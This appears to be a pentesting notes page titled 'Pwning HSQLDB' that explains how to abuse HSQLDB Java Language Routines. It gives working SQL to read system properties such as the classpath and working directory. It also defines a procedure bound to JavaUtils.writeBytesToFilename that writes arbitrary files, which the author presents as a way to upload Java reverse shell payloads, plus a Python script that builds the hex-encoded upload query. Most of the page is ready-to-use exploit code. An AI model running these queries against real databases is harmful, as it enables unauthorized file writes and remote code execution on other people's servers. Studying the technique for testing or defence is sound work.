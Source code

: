 ```yaml
---
title: Pwning HSQLDB
tags:
  - advanced
  - web-app
  - pentesting
  - hsqldb
  - java
  - sql
---
```


## What is HSQLDB?

[Hyper SQL Database (HSQLDB)](https://en.wikipedia.org/wiki/HSQLDB) is a relational database
management system written in Java - you might occasionally come across it. It's cross-platform,
lightweight, and has a bunch of great features like being able to call static Java methods in the
Java Runtime Environment's (JRE) class path. What's more to love?

## Calling Java Language Routines in HSQLDB

In HSQLDB,
[Java Language Routines (JRTs)](https://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines)
are SQL-Invoked Routines, i.e. functions or procedures, that call methods in the classpath of the
JRE. With JRTs, we can define these SQL functions and pass parameters to these methods invocations.
JRTs that invoke methods that return values are called _functions_. JRTs that invoke methods that
return _void_ are called _procedures_.

### Reconnaissance

So, I keep mentioning the classpath. What is it? Like `PATH`, it's a path of `JAR` files currently
loaded in the JRE of the HSQLDB instance. Like with
[[pwning-serialization|pwning Java serialization]], we need to know what gadgets, i.e. static
methods, are available for abuse. We can execute the following query in HSQLDB to create a function
that invokes the Java `getProperty` method, which we'll use to expose the contents of the classpath:

```sql
 CREATE FUNCTION GetSystemProperty(IN key VARCHAR) RETURNS VARCHAR
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

And the following query exposes the classpath:

```sql
VALUES(GetSystemProperty('java.class.path'))
```

Another useful query, the following query exposes the the current directory HSQLDB is executing
from:

```sql
VALUES(GetSystemProperty('user.dir'))
```

### Uploading files

The juicy stuff. We can create a procedure with the following HSQLDB query, using the
`JavaUtils.writeBytesToFilename` method to write a bytes object to a file. This enables us to do
great things like upload Java reverse shell payloads.

```sql
CREATE PROCEDURE WriteBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
  LANGUAGE JAVA
  DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

The above procedure has two parameters, `paramString` which is the filename we wish to write to, and
`paramArrayOfByte` which is the byte array of our file we're going to upload. How do we use it? An
example invocation is provided below:

```sql
CALL WriteBytesToFilename('{DEST}', CAST('{PAYLOAD}' as VARBINARY(1024)))
```

Where `DEST` is where we want to write the file, and `PAYLOAD` is the file's contents in hex. "How
do I get the contents of my file in hex?", you say. The following Python script will convert a file
specified by `filepath` to the correct format and will generate a payload that uploads the file to
the specified `dest`:

```python
from argparse import ArgumentParser

WRITE_BYTES_TO_FILENAME_QUERY = """CALL WriteBytesToFilename('{dest}', CAST('{payload}' as VARBINARY(1024)))"""


class Solution:
    def __init__(self, filepath: str, dest: str) -> None:
        self.filepath, self.dest = filepath, dest

    def solve(self) -> None:
        payload = None
        with open(self.filepath, "rb") as file:
            payload = file.read().hex()

        print(WRITE_BYTES_TO_FILENAME_QUERY.format(dest=self.dest, payload=payload))


def main():
    parser = ArgumentParser()
    parser.add_argument("-f", "--filepath", dest="filepath")
    parser.add_argument("-d", "--dest", dest="dest")
    args = parser.parse_args()
    s = Solution(args.filepath, args.dest)
    s.solve()


if __name__ == "__main__":
    main()
```
